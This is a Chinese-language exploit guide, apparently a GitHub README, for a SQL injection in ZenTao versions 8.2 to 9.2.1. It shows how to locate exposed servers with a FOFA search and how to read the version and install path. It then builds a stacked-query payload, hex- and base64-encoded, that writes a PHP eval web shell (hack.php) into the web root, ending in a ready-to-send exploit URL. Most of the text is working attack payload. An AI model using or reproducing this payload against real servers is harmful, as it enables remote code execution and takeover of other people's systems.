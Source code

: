 # 禅道8.2-9.2.1版本注入漏洞
## 资产搜索
fofa app="易软天创-禅道系统"
### 获取服务版本
`/zentao/index.php?mode=getconfig`  
!()[/img/version.png]
### 获取绝对路径
url随便输入，根据报错查看路径：`/zentao/3424/`  
!()[/img/path.png]
## POC
- sql注入语句：  
```sql
select '<?php @eval($_POST[x])?>' into outfile '/opt/zbox/app/zentao/www/hack.php'
```
- 进行HEX编码(注意加密解密都不带0x，但是EXP中需要加上）：  
```hex
73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027
```
- HEX编码后前面加上0x进行拼接：
```json
{"orderBy":"order limit 1;SET @SQL=0x73656C65637420273C3F70687020406576616C28245F504F53545B785D293F3E2720696E746F206F757466696C6520272F6F70742F7A626F782F6170702F7A656E74616F2F7777772F6861636B2E70687027;PREPARE pord FROM @SQL;EXECUTE pord;-- -","num":"1,1","type":"openedbyme"}
```
- 整体base64编码：
```base64
eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```
- 发送EXP：
```url
http://x.x.x.x/zentao/index.php?m=block&f=main&mode=getblockdata&blockid=case&param=eyJvcmRlckJ5Ijoib3JkZXIgbGltaXQgMTtTRVQgQFNRTD0weDczNjU2QzY1NjM3NDIwMjczQzNGNzA2ODcwMjA0MDY1NzY2MTZDMjgyNDVGNTA0RjUzNTQ1Qjc4NUQyOTNGM0UyNzIwNjk2RTc0NkYyMDZGNzU3NDY2Njk2QzY1MjAyNzJGNkY3MDc0MkY3QTYyNkY3ODJGNjE3MDcwMkY3QTY1NkU3NDYxNkYyRjc3Nzc3NzJGNjg2MTYzNkIyRTcwNjg3MDI3O1BSRVBBUkUgcG9yZCBGUk9NIEBTUUw7RVhFQ1VURSBwb3JkOy0tIC0iLCJudW0iOiIxLDEiLCJ0eXBlIjoib3BlbmVkYnltZSJ9
```  
!()[/img/exp.png]
参考：https://www.hacking8.com/bug-web/禅道/禅道8.2-9.2.1-注入GetShell.html


